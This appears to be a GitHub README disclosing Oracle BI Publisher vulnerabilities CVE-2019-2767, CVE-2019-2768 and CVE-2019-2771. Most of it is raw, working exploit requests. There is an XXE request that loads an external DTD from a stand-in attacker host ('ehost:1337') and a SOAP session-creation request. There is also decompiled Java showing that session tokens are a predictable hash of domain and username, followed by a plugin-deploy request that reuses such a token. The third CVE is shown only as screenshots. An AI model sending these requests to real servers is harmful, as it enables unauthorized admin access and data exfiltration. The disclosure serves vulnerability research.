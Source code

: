 # Oracle-BI-bugs

## CVE-2019-2767
 * Subject: XXE IN CONVERT SERVLET
 * CVSSv3.0 Base Score: 7.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N
 
```
GET /xmlpserver/convert?xml=<%3fxml+version%3d"1.0"+%3f><!DOCTYPE+r+[<!ELEMENT+r+ANY+><!ENTITY+%25+sp+SYSTEM+"http%3a//ehost%3a1337/ev.xml">%25sp%3b%25param1%3b]>&_xf=Excel&_xl=123&template=123 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflat
Connection: close
Upgrade-Insecure-Requests: 1
```

## CVE-2019-2768
 * Subject: ACCESS TO ADMIN SERVICES, SESSION GENERATION ERROR
 * CVSSv3.0 Base Score: 7.5
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
 
Oracle BI has xmlpserver which uses an administrator to configure the server. To use xmlpserver services, the administrator needs to create a session using createSession function.
```
POST /xmlpserver/services/XMLPService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 610

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:rep="http://xmlns.oracle.com/oxp/service/report">
   <soapenv:Header/>
   <soapenv:Body>
      <rep:createSession soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">weblogic</username>
         <password xsi:type="xsd:string">asdQWE123</password>
         <domain xsi:type="xsd:string">bi</domain>
      </rep:createSession>
   </soapenv:Body>
</soapenv:Envelope>

```

```
<v2:sessionToken>-1626402211</v2:sessionToken>
```
```java
private String createCallerSession(final XDOPrincipal user, final String domain) {
        Logger.log("XMLPService.createCallerSession...if here things are looking ok", 1);
        final String token = tokenize(domain, user.getName());
        final XDOPrincipal principal = TokenHolder.getPrincipal(token);
        if (principal == null) {
            final XDOPrincipal guser = (XDOPrincipal)GlobalUser.get();
            TokenHolder.addPrincipal(token, guser);
        }
        return token;
    }
    
    private static String tokenize(final String domain, final String username) {
        final StringBuffer sb = new StringBuffer();
        if (domain != null) {
            sb.append(domain);
        }
        sb.append(':').append(username);
        final int key = sb.toString().hashCode();
        return new Integer(key).toString();
    }
```

```
POST /xmlpserver/services/v2/PluginService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 431

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:v2="http://xmlns.oracle.com/oxp/service/v2">
   <soapenv:Header/>
   <soapenv:Body>
      <v2:deploy>
         <v2:sessionToken>-1626402211</v2:sessionToken>
         <v2:appPath>0</v2:appPath>
         <v2:pluginName>1</v2:pluginName>
         <v2:uploadedData>2</v2:uploadedData>
      </v2:deploy>
   </soapenv:Body>
</soapenv:Envelope>
```



## CVE-2019-2771
 * Subject: BIP BYPASS FONT UPLOAD
 * CVSSv3.0 Base Score: 8.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:H/A:L
 
![web](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f1.png)

![upload](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f2.png)

![write file](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f3.png)

![file on the system](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f4.png)
